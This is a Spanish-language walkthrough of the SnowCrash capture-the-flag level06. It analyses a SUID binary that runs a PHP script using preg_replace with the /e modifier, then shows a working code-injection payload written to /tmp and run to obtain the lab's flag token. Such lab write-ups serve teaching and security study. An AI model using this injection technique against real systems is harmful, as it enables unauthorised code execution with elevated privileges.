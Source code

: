 1. **Busqueda de archivos**

    ```bash
    level06@SnowCrash:~$ ll
    [...]
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
    [...]
    ```  
    Archivo con permisos SUID, usamos el comando `strings`para buscar algun texto legible
    ```bash
    level06@SnowCrash:~$ strings level06
    [...]
    /home/user/level06/level06.php
    [...]
    ```  
    El ejecutable `level06` parece ser un programa que utiliza `PHP` para ejecutar el archivo `/home/user/level06/level06.php`. Dado que tiene el bit `SUID` activado, cualquier acción que realice este programa se ejecutará con los privilegios del usuario `flag06`. Esto sugiere que el archivo PHP podría ser clave para explotar. El siguiente paso sería intentar leer el archivo level06.php para analizar su contenido y buscar vulnerabilidades.

2. **Vulnerabilidad**

    ```bash
    level06@SnowCrash:~$ cat /home/user/level06/level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ``` 
    El archivo `level06.php` contiene un código PHP que parece vulnerable debido al uso de la función preg_replace con el modificador `/e`. Este modificador permite la ejecución de código PHP arbitrario dentro de una expresión regular, lo que puede ser explotado.
    Análisis del código:
    1. Función `y($m)`:
        - Reemplaza los puntos `(.)` por `" x "` y los caracteres `@` por `" y"`.
        - No parece peligrosa por sí sola.
    2. Función `x($y, $z)`:
        - Lee el contenido de un archivo especificado en `$y` usando `file_get_contents`.
        - Usa `preg_replace` con el modificador `/e` para ejecutar código PHP dentro de la expresión regular.
        - Reemplaza corchetes `[ y ]` por paréntesis `( y )`.
    3. Ejecución:
        - El script toma dos argumentos de línea de comandos `($argv[1] y $argv[2])`.
        - Llama a la función x con estos argumentos y muestra el resultado.

2. **Explotacion**

    Creamos un script malicioso que inyect código PHP
    ```bash
    echo '[x {${system(getflag)}}]' > /tmp/exploit
    ```
    Pasamos el archivo como argumento al script
    ```bash
    level06@SnowCrash:~$ ./level06 /tmp/exploit
    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
    ````



